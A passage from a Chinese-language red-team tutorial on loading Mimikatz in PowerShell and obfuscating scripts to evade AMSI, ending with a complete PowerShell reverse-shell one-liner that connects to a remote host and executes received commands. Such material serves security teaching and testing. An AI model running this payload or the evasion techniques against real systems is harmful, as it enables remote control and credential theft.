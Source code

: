 因此，PowerShell 强大的内存操作能力无疑是强大的。然而，Microsoft 的内置安全措施，特别是 AMSI，对直接恶意行为构成了重大障碍。这种网络安全机制和规避策略之间的持续演变和相互作用体现了该领域的动态性质，需要持续学习和适应。  
## 使用 Import-Module 加载 Mimikatz  
  
另一种在 PowerShell 会话中加载 Mimikatz 的方法是使用 Import-Module cmdlet：  
```
Import-Module .\Invoke-Mimikatz.ps1
```  
  
**什么是 Import-Module?**  
 Import-Module cmdlet 是 PowerShell 内置的命令，用于将一个或多个模块添加到当前会话中。在 PowerShell 中，模块是一个包含 PowerShell 成员的包，包括 cmdlet、提供程序、函数、变量等。  
  
**Import-Module 的工作原理：**  
1. 首先，PowerShell 在当前目录中搜索指定的模块，本例中是.\Invoke-Mimikatz.ps1。如果在当前目录中找不到，PowerShell 会检查预定义的模块路径。  
  
1. 接下来，如果存在模块清单文件 (.psd1),PowerShell 会读取它以确定模块的属性、依赖项和所需的程序集。随后，所需的.NET 程序集会被加载到 PowerShell 进程中。  
  
1. 一旦找到脚本文件 (Invoke-Mimikatz.ps1),它会在单独的作用域中执行。这个执行过程会定义模块中包含的所有函数、变量和别名。只有显式导出的项目或在没有限制的情况下的所有项目才会在当前会话中可用。  
  
1. 导出的项目随后会集成到会话的函数和变量表中，这使得它们可以像原生命令一样直接访问。为了提高性能，模块会被缓存在内存中，以便后续导入时更快访问。  
  
1. 如果模块依赖于其他模块或脚本，PowerShell 会递归导入这些依赖项。此外，在执行模块中的任何代码之前，PowerShell 会检查系统的执行策略，以确保允许运行该模块。  
  
1. 最后，需要注意的是，模块内定义的内部变量与当前会话中的变量保持隔离。这种隔离可以防止模块变量与现有会话变量之间的冲突，确保平稳运行并降低错误风险。  
  
值得注意的是，即使你从磁盘导入模块，如果模块的任何部分被执行，AMSI 仍然可以扫描并可能阻止其内容。  
## - 混淆和绕过 AMSI(概述)  
  
混淆是一种使代码难以理解的方法。这就像写一个只有你知道如何阅读的秘密信息。在讨论 AMSI 时，混淆经常被用来尝试欺骗它。  
  
以下是大多数针对 AMSI 的混淆工作原理：  
1. 隐藏真实含义 → 混淆改变代码的外观而不改变其功能。例如，不写"Hello",你可能会写"H" + "e" + "l" + "l" + "o"。它仍然表示"Hello",但看起来不同。  
  
1. 制造混乱 —> 混淆添加不执行任何重要操作的额外内容。这就像在句子中添加随机词来混淆阅读者。  
  
1. 使用奇怪的名称，代码中使用随机或误导性的名称，而不是使用清晰的名称。这使 AMSI 更难猜测代码在做什么。  
  
1. 使用编码，例如，"Hello"在 Base64 编码后可能变成"SGVsbG8="。AMSI 可能不会立即识别出这一点。  
  
## - Invoke-Obfuscation(第一个技巧)  
  
Invoke-Obfuscation 是由 Daniel Bohannon 创建的工具，用于混淆 PowerShell 脚本以避免检测，通常在红队行动中使用。  
  
要深入了解 Invoke-Obfuscation 及其应用，你可以观看以下视频：  
https://www.youtube.com/watch?v=uE8IAxM_BhE  
  
在给定的脚本中，正在执行一个反向 shell 负载，概述如下 ->   
Github — Payload All The Things — Powershell Reverse Shell  
:  
```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.1.4",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```  
  